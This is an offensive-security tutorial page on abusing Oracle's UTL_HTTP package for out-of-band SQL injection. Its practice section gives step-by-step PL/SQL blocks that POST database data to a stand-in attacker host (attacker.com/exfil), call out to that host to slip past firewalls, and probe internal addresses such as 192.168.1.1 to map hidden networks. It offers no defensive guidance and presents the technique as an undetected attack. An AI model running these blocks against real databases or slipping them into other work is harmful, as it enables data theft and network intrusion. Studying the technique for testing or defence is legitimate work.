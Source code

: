 ```yaml
---
title: Mastering UTL_HTTP for SQL Injection via Oracle
description: Explore UTL_HTTP for bypassing firewalls, data exfiltration, and network
  discovery.
keywords:
- UTL_HTTP
- Oracle SQL
- out-of-band injection
- data exfiltration
- firewall evasion
- network discovery
- HTTP request
- SQL injection
---
```


# UTL_HTTP

## Context

In the realm of offensive cybersecurity, the UTL_HTTP package within Oracle databases is a powerful tool leveraged for out-of-band injection attacks. This package allows for the establishment of HTTP connections directly from the database, facilitating the execution of SQL injection attacks through interactions with external servers. By exploiting UTL_HTTP, attackers can evade traditional detection methods by utilizing external network channels to exfiltrate data stealthily or communicate with hidden networks.

## Theory

The UTL_HTTP package is a part of Oracle's PL/SQL library that allows interaction with web servers over the HTTP and HTTPS protocols. It encompasses procedures to create HTTP requests, handle responses, and manage session information. Within a malicious context, attackers use UTL_HTTP to initiate outbound HTTP requests from the database, thus employing it for out-of-band data extraction during SQL injections.

### Key Concepts

- **Request Handling**: Craft and send HTTP requests to remote servers.
- **Response Handling**: Process and analyze responses from these servers.
- **Data Exfiltration**: Extract sensitive information from the database and send it to an attacker's server over HTTP.
- **Security Evasion**: Avoid detection by transmitting data via standard HTTP channels, such as ports 80 or 443.

```mermaid
mindmap
    root((UTL_HTTP in Oracle SQL))
        Request_Handling
            HTTP_Get_Packet
            HTTP_Post_Request
        Response_Handling
            Analyze_Responses
            Parse_Headers
        Data_Exfiltration
            Send_Data_To_Remote
            Use_Of_Standard_Ports
        Security_Evasion
            Bypass_Firewalls
            Stealth_Communication
```

## Practice

### Leveraging UTL_HTTP for Data Exfiltration

Here's how you can leverage UTL_HTTP to perform data exfiltration:

1. **Initialize UTL_HTTP**: Begin by setting up the HTTP objects.
   
   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   ```

2. **Create HTTP Request**: Craft an HTTP POST request to an external server under the attacker's control.

   ```sql
   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfil', 'POST');
   ```

3. **Include Data**: Add sensitive data to be exfiltrated in the POST body.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Content-Type', 'application/x-www-form-urlencoded');
   UTL_HTTP.WRITE_TEXT(req, 'data=' || sensitive_data);
   ```

4. **Invoke Request**: Send the request to the attacker's server to exfiltrate the data.

   ```sql
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

5. **Cleanup**: Finalize the session by closing the HTTP response.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

### Bypassing Firewalls with UTL_HTTP

Use UTL_HTTP to send data over common HTTP ports to evade firewall restrictions.

1. **Deploy UTL_HTTP**: Initialize HTTP objects similar to the previous steps.

   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/listen', 'GET');
   ```

2. **Port Usage**: Ensure communication uses standard ports like 80 or 443.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Host', 'attacker.com');
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

3. **Validate Success**: Verify data receipt on the attacker's server through monitoring tools.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

### Exploring Hidden Networks via UTL_HTTP

Discover internal IP addresses by sending requests using UTL_HTTP.

1. **Initiate Request**: Send crafted HTTP requests to suspected internal network addresses.

   ```sql
   DECLARE
       req UTL_HTTP.REQ;
       resp UTL_HTTP.RESP;
   BEGIN
   req := UTL_HTTP.BEGIN_REQUEST('http://192.168.1.1/api', 'GET');
   ```

2. **Send Request**: Include appropriate headers for the request.

   ```sql
   UTL_HTTP.SET_HEADER(req, 'Authorization', 'Bearer token');
   resp := UTL_HTTP.GET_RESPONSE(req);
   ```

3. **Analyze**: Interpret the responses to ascertain network information.

   ```plaintext
   HTTP/1.1 200 OK: {"devices": [{"id":"router"}]}
   ```

4. **Conclude**: Properly close HTTP connections post-analysis.

   ```sql
   UTL_HTTP.END_RESPONSE(resp);
   END;
   /
   ```

By understanding and utilizing the UTL_HTTP package effectively, an attacker can orchestrate sophisticated SQL injection attacks to exfiltrate data, bypass security measures like firewalls, and map internal networks undetected.